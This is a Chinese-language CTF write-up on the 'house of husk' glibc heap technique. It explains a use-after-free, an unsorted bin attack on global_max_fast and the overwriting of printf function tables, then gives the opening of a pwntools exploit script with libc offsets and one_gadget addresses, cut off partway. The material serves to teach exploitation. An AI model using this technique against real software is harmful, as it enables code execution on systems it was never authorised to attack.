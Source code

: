 通读代码之后，我们可以理清它的大概逻辑：

- 先让我们 malloc 两个大的块，一个在 0x1000 到 0x5000 之间，一个在 0x5000 到 0xA000 之间。
- 接下来 rename 的地方存在 uaf 漏洞，直接给出了 unsorted bin 的 fd，而且后续写的操作可以用于覆盖 bk 进行 unsorted bin attack
- 再接下来允许我们修改前面 malloc 的块，最后 free 掉。

所以攻击的逻辑很简单，malloc 的两个块正好对应 `__printf_arginfo_table` 和 `__printf_function_table`，unsorted bin 用来 leak libc 和覆盖 `global_max_fast`，edit 时填充 one_gadget，最后 printf 触发。

值得注意的是，题目给出的 libc 并没有两个 printf table 的符号，我们需要到 dbg 版本的 libc 文件中查询，这里推荐一个能查询 debug 版本 libc 的网站——[libc database search](https://publicki.top/libc/)

![image-20220307163518357](../assets/2022-02-22-house_of_husk/image-20220307163518357.png)

点击 All symbols，在网页中查询符号偏移。

### exp

```python
#!/usr/bin/python
from pwn import *
# context.log_level = 'debug'

p = process('./pwn')
# p = remote('1.13.162.249', 10001)
l = ELF('./libc-2.27.so', checksec=False)

ones = [0x4f365, 0x4f3c2, 0x10a45c]

__printf_arginfo_table = 0x3ec870
__printf_function_table  = 0x3f0658
main_arena = 0x3ebc40
global_max_fast = 0x3ed940

arg_offset = __printf_arginfo_table - main_arena
p.sendlineafter('size?\n', str(arg_offset*2-0x10))

func_offset = __printf_function_table - main_arena
p.sendlineafter('size?\n', str(func_offset*2-0x10))

p.sendlineafter('(y/n)\n', 'y')

p.recvuntil('is:')
```